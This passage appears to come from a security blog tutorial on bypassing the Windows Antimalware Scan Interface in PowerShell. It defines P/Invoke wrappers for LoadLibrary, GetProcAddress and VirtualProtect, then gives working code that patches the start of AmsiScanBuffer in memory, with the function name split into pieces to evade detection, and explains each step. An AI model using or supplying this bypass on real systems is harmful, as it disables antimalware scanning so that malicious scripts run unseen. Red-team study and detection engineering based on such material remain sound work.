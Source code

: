 To make use of these API calls in powershell, we will first define the methods in C# using pinvoke (which allows us to call unmanaged APIs in managed code) and then load the c# into the powershell session using add-type.

```c#
$code = @"
using System;
using System.Runtime.InteropServices;

public class WinApi {
	
	[DllImport("kernel32")]
	public static extern IntPtr LoadLibrary(string name);
	
	[DllImport("kernel32")]
	public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
	
	[DllImport("kernel32")]
	public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out int lpflOldProtect);
	
}"@
```

In the above code, we are first loading the required namespaces. `System.Runtime.InteropServices` is where pinvoke implemented. Then we are defining the signature for each native API, I have taken them from pinvoke.net. We need to load the above C# code inside powershell session using Add-Type.

```c#
Add-Type $code
```

Now we can use those API calls from inside powershell session.

```c#
$amsiDll = [WinApi]::LoadLibrary("amsi.dll")
$asbAddr = [WinApi]::GetProcAddress($amsiDll, "Ams"+"iScan"+"Buf"+"fer")
$ret = [Byte[]] ( 0xc3, 0x80, 0x07, 0x00,0x57, 0xb8 )
$out = 0

[WinApi]::VirtualProtect($asbAddr, [uint32]$ret.Length, 0x40, [ref] $out)
[System.Runtime.InteropServices.Marshal]::Copy($ret, 0, $asbAddr, $ret.Length)
[WinApi]::VirtualProtect($asbAddr, [uint32]$ret.Length, $out, [ref] $null)
```

In the above code, first we are getting the handle to the amsi.dll library then calling GetProcAddress to get the address to the AmsiScanBuffer function inside amsi.dll. Then we are defining a variable named $ret which contains the bytes which will overwrite the very first instructions of AmsiScanBuffer, $out is what will contain the old permission of the memory region returned by VirtualProtect then we are calling VirtualProtect to change the permission of AmsiScanBuffer region to RWX(0x40) and then using Marshal.Copy to copy bytes from managed memory region to unmanaged and then calling VirtualProtect again to change back the permission of AmsiScanBuffer to previous one which we had stored in $out.

![](https://raw.githubusercontent.com/dazzyddos/dazzyddos.github.io/master/Images/amsibypass/Pasted%20image%2020210816164830.png)
